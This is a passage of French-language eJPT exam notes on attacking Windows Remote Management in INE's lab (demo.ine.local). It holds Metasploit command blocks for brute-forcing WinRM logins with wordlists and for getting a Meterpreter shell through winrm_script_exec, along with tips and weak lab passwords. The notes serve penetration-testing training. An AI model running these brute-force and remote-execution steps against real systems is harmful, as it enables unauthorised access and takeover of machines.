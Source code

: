 ### Scénario 3: WinRM HTTPS (port 5986)
```bash
# Si WinRM sur HTTPS
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set RPORT 5986
set SSL true
set USERNAME administrator
set PASSWORD password
exploit
```

---

## 💡 10. Conseils et astuces eJPT

### Points critiques WinRM eJPT
- ✅ **Port 5985** très fréquent dans labs
- ✅ **Credentials faibles** (administrator:tinkerbell)
- ✅ **Wordlists MSF** très efficaces
- ✅ **FORCE_VBS true** pour exploitation
- ✅ **Session directe** souvent créée par winrm_login

### Erreurs courantes WinRM
- ❌ **Oublier PASSWORD anything** → Module ne fonctionne pas
- ❌ **FORCE_VBS false** → Exploitation échoue
- ❌ **Ne pas tester auth methods** → Mauvaise authentification
- ❌ **Ignorer session auto** créée par winrm_login
- ❌ **VERBOSE true** → Output trop verbeux

### Workflow optimisé WinRM eJPT
```bash
# 1. Découverte rapide
nmap --top-ports 7000 demo.ine.local | grep 5985

# 2. Brute force direct
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit

# 3. Si credentials trouvés → Meterpreter
use exploit/windows/winrm/winrm_script_exec
set USERNAME found_user
set PASSWORD found_pass
set FORCE_VBS true
exploit

# 4. Flag hunting rapide
cd / && cat flag.txt
```
